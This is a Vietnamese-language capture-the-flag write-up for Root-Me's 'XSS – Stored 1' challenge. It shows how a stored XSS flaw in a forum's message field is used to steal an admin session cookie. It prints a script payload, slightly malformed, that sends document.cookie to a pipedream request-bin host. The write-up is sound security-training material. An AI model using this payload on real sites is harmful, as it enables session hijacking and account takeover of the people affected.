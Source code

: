 # [XSS – Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)

Challenge yêu cầu ta thực hiện đánh cắp cookie phiên quản trị viên và cung cấp cho ta một website để đăng post:

<img src="./media/image1.png" style="width:4.27197in;height:3.11176in" alt="Graphical user interface, text, application, email Description automatically generated" />

Kiểm tra source thì thấy đây là một form với phương thức **“POST”**. Như tên đề bài, ta sẽ thực hiện XSS Stored vào input. Nhưng trước hết ta kiểm tra xem nó bị XSS ở đâu, ta được kết quả là nó bị tại ô input **‘Message’**:

<img src="./media/image2.png" style="width:4.17036in;height:2.37882in" alt="Graphical user interface, text, application, email Description automatically generated" />

<img src="./media/image3.png" style="width:6.5in;height:1.09514in" alt="Text Description automatically generated" />

Đầu tiên, ta thực hiện tạo một nơi để có thể thu thập các HTTP Request với https://requestbin.in:

<img src="./media/image4.png" style="width:6.5in;height:2.21597in" alt="Graphical user interface, application Description automatically generated" />

Như vậy, ta có một requestbin tại https://eojx5xx99skfihj.m.pipedream.net:

Tiếp theo, ta có thể đoán được chắc chắn Forum v0.001 website này bị XSS, do vậy, ta thực hiện viết payload để attack vào input của form này:

Payload:
```javascript
<script></script>document.write("<img src='https://eojx5xx99skfihj.m.pipedream.net/"+document.cookie+"'></img>");</script>
```

<img src="./media/image5.png" style="width:5.56715in;height:2.62523in" />

<img src="./media/image6.png" style="width:6.03386in;height:1.25011in" alt="Graphical user interface, text, application Description automatically generated" />

Kiểm tra request bin, ta nhận được giá trị ADMIN\_COOKIE.

<img src="./media/image7.png" style="width:6.5in;height:1.2125in" alt="A picture containing graphical user interface Description automatically generated" />

- Flag: "****************************"
